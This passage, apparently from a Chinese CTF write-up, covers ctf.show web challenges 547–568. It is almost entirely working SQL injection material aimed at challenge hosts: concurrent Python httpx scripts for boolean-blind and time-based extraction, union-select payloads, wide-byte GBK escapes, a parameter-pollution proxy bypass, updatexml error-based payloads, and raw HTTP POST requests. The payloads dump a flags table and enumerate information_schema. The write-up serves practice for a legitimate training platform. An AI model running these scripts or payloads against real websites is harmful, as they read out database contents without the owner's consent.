            task = asyncio.create_task(crack_char_at_index(sem, client, i))
            tasks.append(task)
        
        print(f"[*] 开始并发爆破，URL: {url}")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])

        final_flag = "".join([char for _, char in results])
        print(f"\n[SUCCESS] 最终结果: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] 总耗时: {time.time() - start:.2f} 秒")
```

## web547

```python
import asyncio
import httpx
import time

url = "https://392e2751-ea4c-4fe2-afd3-747f4e487b9c.challenge.ctf.show/"

MAX_LENGTH = 50 
CONCURRENCY_LIMIT = 10 

async def check(client, i, mid):
    payload = f"')||(if(ascii(substr((seLect(flag4s)from(ctfshow.flags)),{i},1))>{mid},1,0))||('"
    
    try:
        r = await client.get(url, params={"id": payload})
        return "Your Login name" in r.text
    except Exception as e:
        print(f"[ERROR] Connection failed: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid

        char = chr(low)
        if low == 32:
            print(f"[?] 第 {index} 位可能是空格或提取失败 (ASCII 32)")
        else:
            print(f"[+] 第 {index} 位破解完成: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)

    async with httpx.AsyncClient(verify=False, http2=True, timeout=20.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            task = asyncio.create_task(crack_char_at_index(sem, client, i))
            tasks.append(task)
        
        print(f"[*] 开始并发爆破，URL: {url}")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])

        final_flag = "".join([char for _, char in results])
        print(f"\n[SUCCESS] 最终结果: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] 总耗时: {time.time() - start:.2f} 秒")
```

## web548

同上

## web549

有一层代理，参数解析有差异可以绕过

```python
?id=1&id=-1' union select 1,2,(select flag4s from ctfshow.flags)-- -
```

## web550

```python
?id=1&id=-1" union select 1,2,(select flag4s from ctfshow.flags)-- -
```

## web551

```python
?id=1&id=-1") union select 1,2,(select flag4s from ctfshow.flags)-- -
```

## web552

发现有转义，但是远程是 GBK 编码，可以进行宽字节注入，输入特殊字符、汉字逃逸出`'`

```python
?id=%df'or 1-- -

?id=%df' union select 1,2,(select flag4s from ctfshow.flags)-- -
```

## web553

```python
?id=%df' union select 1,2,(select flag4s from ctfshow.flags)-- -
```


## web554

```http
POST / HTTP/1.1
Host: f89fb43c-c7fe-4b0c-bbf0-06f5a4b64be7.challenge.ctf.show
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
referer: https://f89fb43c-c7fe-4b0c-bbf0-06f5a4b64be7.challenge.ctf.show/
Content-Type: application/x-www-form-urlencoded

uname=%df'union select 1,(select flag4s from ctfshow.flags)-- -&passwd=1&submit=Submit
```

## web555

查库表的时候需要 limit 限制下

```python
?id=0 union select 1,2,(select flag4s from ctfshow.flags)

?id=0 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=(select schema_name from information_schema.schemata limit 1))
# flags

?id=0 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_schema=(select schema_name from information_schema.schemata limit 1))
# id,flag4s
```

## web556

```python
?id=-1%df' union select 1,2,(select flag4s from ctfshow.flags)-- -

?id=-1%df' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_schema=(select schema_name from information_schema.schemata limit 1))-- -
```

## web557

```http
POST / HTTP/1.1
Host: 17d29830-eab7-43b0-b9d2-1f07b6771b33.challenge.ctf.show
Connection: keep-alive
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="142", "Google Chrome";v="142", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://17d29830-eab7-43b0-b9d2-1f07b6771b33.challenge.ctf.show/
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Content-Type: application/x-www-form-urlencoded

uname=-1%df' union select 1,(select flag4s from ctfshow.flags)-- -&passwd=1&submit=Submit
```

## web558

```python
?id=-1' union select 1,2,(select flag4s from ctfshow.flags)-- -
```

## web559

```python
?id=-1 union select 1,2,(select flag4s from ctfshow.flags)
```

## web560

```python
?id=0') union select 1,2,(select flag4s from ctfshow.flags)-- -
```

## web561

```python
?id=-1 union select 1,2,(select flag4s from ctfshow.flags)
```

## web562

报错注入

```python
login_password=1' or (select updatexml(1,concat(0x7e,right((select flag4s from ctfshow.flags),30),0x7e),1))-- -&login_user=1&mysubmit=Login

login_password=1' or (select updatexml(1,concat(0x7e,left((select flag4s from ctfshow.flags),30),0x7e),1))-- -&login_user=1&mysubmit=Login
```

## web563

```python
login_password=1') or (select updatexml(1,concat(0x7e,right((select flag4s from ctfshow.flags),30),0x7e),1))-- -&login_user=1&mysubmit=Login

login_password=1') or (select updatexml(1,concat(0x7e,left((select flag4s from ctfshow.flags),30),0x7e),1))-- -&login_user=1&mysubmit=Login
```

## web564

order by 注入会放大时效，这个需要注意

```python
import asyncio
import httpx
import time

url = "https://6a08fe18-c36e-4488-8145-ae19075212fa.challenge.ctf.show/"

MAX_LENGTH = 50
CONCURRENCY_LIMIT = 1 
INJECT_SLEEP = 0.3 
THRESHOLD = 2.5 

async def check(client, i, mid):
    payload = f"if(ascii(substr((select flag4s from ctfshow.flags),{i},1))>{mid},sleep({INJECT_SLEEP}),1)"
    try:
        start_time = time.time()
        r = await client.get(url, params={"sort": payload})
        end_time = time.time()
        
        duration = end_time - start_time
        return duration > THRESHOLD

    except httpx.TimeoutException:
        return True
    except Exception as e:
        print(f"Error: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid
        
        char = chr(low)
        print(f"[+] Index {index}: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)
    async with httpx.AsyncClient(verify=False, http2=True, timeout=15.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            tasks.append(asyncio.create_task(crack_char_at_index(sem, client, i)))
        
        print(f"[*] 开始爆破，Sleep设定: {INJECT_SLEEP}s, 阈值: {THRESHOLD}s")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])
        
        final_flag = "".join([char for _, char in results])
        print(f"\nResult: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] Total time: {time.time() - start:.2f}s")
```

## web565

```python
import asyncio
import httpx
import time

url = "https://c215c9e5-21b7-4704-8282-b23b9b7eb036.challenge.ctf.show/"

MAX_LENGTH = 50
CONCURRENCY_LIMIT = 1 
INJECT_SLEEP = 0.3 
THRESHOLD = 2.5

async def check(client, i, mid):
    payload = f"1' and if(ascii(substr((select flag4s from ctfshow.flags),{i},1))>{mid},sleep({INJECT_SLEEP}),1)-- -"
    try:
        start_time = time.time()
        r = await client.get(url, params={"sort": payload})
        end_time = time.time()
        
        duration = end_time - start_time
        return duration > THRESHOLD

    except httpx.TimeoutException:
        return True
    except Exception as e:
        print(f"Error: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid
        
        char = chr(low)
        print(f"[+] Index {index}: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)
    async with httpx.AsyncClient(verify=False, http2=True, timeout=15.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            tasks.append(asyncio.create_task(crack_char_at_index(sem, client, i)))
        
        print(f"[*] 开始爆破，Sleep设定: {INJECT_SLEEP}s, 阈值: {THRESHOLD}s")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])
        
        final_flag = "".join([char for _, char in results])
        print(f"\nResult: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] Total time: {time.time() - start:.2f}s")
```

## web566

```python
import asyncio
import httpx
import time

url = "https://72232aa0-9596-469e-a4e8-f9ba162e34ae.challenge.ctf.show/"

MAX_LENGTH = 50
CONCURRENCY_LIMIT = 1
INJECT_SLEEP = 0.3
THRESHOLD = 2.5

async def check(client, i, mid):
    payload = f"if(ascii(substr((select flag4s from ctfshow.flags),{i},1))>{mid},sleep({INJECT_SLEEP}),1)"
    try:
        start_time = time.time()
        r = await client.get(url, params={"sort": payload})
        end_time = time.time()
        
        duration = end_time - start_time
        return duration > THRESHOLD

    except httpx.TimeoutException:
        return True
    except Exception as e:
        print(f"Error: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid
        
        char = chr(low)
        print(f"[+] Index {index}: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)
    async with httpx.AsyncClient(verify=False, http2=True, timeout=15.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            tasks.append(asyncio.create_task(crack_char_at_index(sem, client, i)))
        
        print(f"[*] 开始爆破，Sleep设定: {INJECT_SLEEP}s, 阈值: {THRESHOLD}s")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])
        
        final_flag = "".join([char for _, char in results])
        print(f"\nResult: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] Total time: {time.time() - start:.2f}s")
```

## web567

```python
import asyncio
import httpx
import time

url = "https://3b7ff558-5e0a-4110-a4eb-d816d1efea31.challenge.ctf.show/"

MAX_LENGTH = 50
CONCURRENCY_LIMIT = 1
INJECT_SLEEP = 0.3
THRESHOLD = 2.5

async def check(client, i, mid):
    payload = f"1 and if(ascii(substr((select flag4s from ctfshow.flags),{i},1))>{mid},sleep({INJECT_SLEEP}),1)-- -"
    try:
        start_time = time.time()
        r = await client.get(url, params={"sort": payload})
        end_time = time.time()
        
        duration = end_time - start_time
        return duration > THRESHOLD

    except httpx.TimeoutException:
        return True
    except Exception as e:
        print(f"Error: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid
        
        char = chr(low)
        print(f"[+] Index {index}: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)
    async with httpx.AsyncClient(verify=False, http2=True, timeout=15.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            tasks.append(asyncio.create_task(crack_char_at_index(sem, client, i)))
        
        print(f"[*] 开始爆破，Sleep设定: {INJECT_SLEEP}s, 阈值: {THRESHOLD}s")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])
        
        final_flag = "".join([char for _, char in results])
        print(f"\nResult: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] Total time: {time.time() - start:.2f}s")
```

## web568

```python
import asyncio
import httpx
import time

url = "https://a1d5b275-6292-4a48-b32c-c13f896634df.challenge.ctf.show/"

MAX_LENGTH = 50
CONCURRENCY_LIMIT = 1
INJECT_SLEEP = 0.3
THRESHOLD = 2.5

async def check(client, i, mid):
    payload = f"1' and if(ascii(substr((select flag4s from ctfshow.flags),{i},1))>{mid},sleep({INJECT_SLEEP}),1)-- -"
    try:
        start_time = time.time()
        r = await client.get(url, params={"sort": payload})
        end_time = time.time()
        
        duration = end_time - start_time
        return duration > THRESHOLD

    except httpx.TimeoutException:
        return True
    except Exception as e:
        print(f"Error: {e}")
        return False

async def crack_char_at_index(sem, client, index):
    async with sem:
        low, high = 32, 127
        while low < high:
            mid = (low + high) // 2
            if await check(client, index, mid):
                low = mid + 1
            else:
                high = mid
        
        char = chr(low)
        print(f"[+] Index {index}: {char}")
        return index, char

async def main():
    sem = asyncio.Semaphore(CONCURRENCY_LIMIT)
    async with httpx.AsyncClient(verify=False, http2=True, timeout=15.0) as client:
        tasks = []
        for i in range(1, MAX_LENGTH + 1):
            tasks.append(asyncio.create_task(crack_char_at_index(sem, client, i)))
        
        print(f"[*] 开始爆破，Sleep设定: {INJECT_SLEEP}s, 阈值: {THRESHOLD}s")
        
        results = await asyncio.gather(*tasks)
        results.sort(key=lambda x: x[0])
        
        final_flag = "".join([char for _, char in results])
        print(f"\nResult: {final_flag.strip()}")

if __name__ == "__main__":
    start = time.time()
    asyncio.run(main())
    print(f"[*] Total time: {time.time() - start:.2f}s")
```

## 小结

纯纯练手的，主要就是`httpx`模块脚本编写，现在有一个比较好的 idea 去做一件事情，通过这些题目。
